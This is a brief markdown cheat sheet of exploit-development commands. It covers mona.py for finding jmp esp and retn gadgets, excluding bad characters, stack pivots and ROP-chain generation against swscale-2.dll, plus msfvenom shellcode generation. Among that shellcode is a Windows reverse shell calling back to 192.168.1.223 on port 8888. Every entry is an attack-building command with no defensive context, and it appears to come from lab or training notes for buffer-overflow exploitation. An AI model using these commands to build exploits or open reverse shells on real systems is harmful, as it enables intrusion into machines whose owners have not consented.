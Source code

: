 ## mona

* set working folder:  
`!mona config -set workingfolder c:\logs\%p`

* find instruction (i.e. "jmp esp") using mona:  
`!mona find -type instr -s "jmp esp"`

* find in module, excluding bad chars
`!mona find -type instr -s "retn" -m swscale-2.dll -cpb '\x00\x5c\x40\x0d\x0a'`

* find with wildcards
`!mona findwild -s "push r32#*#pop eax#inc eax#*#retn"`

* calculate addresses offset 
`!mona offset -a1 <end address> -a2 <start address>`

* find stack-pivoting gadgets:
`!mona stackpivot -distance 3212 -cpb '\x00\x5c\x40\x0d\x0a'`

* generate rop-chains (single/multiple modules):
`!mona rop -m swscale-2.dll -cpb '\x00\x5c\x40\x0d\x0a'`
`!mona rop -m "module1, module2" -cpb '\x00\x5c\x40\x0d\x0a'`

## misc
* shellcode generation using msfvenom (reverse shell)
`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.223 LPORT=8888 -f py -b "\x00\x0a\x0d\x20\x26\x2a\xd9\x74\x24\xf4"`

* shellcode generation using msfvenom (calc.exe)  
`msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe -e x86/alpha_mixed -f python --bad-chars '\x00\x5c\x40\x0d\x0a'`
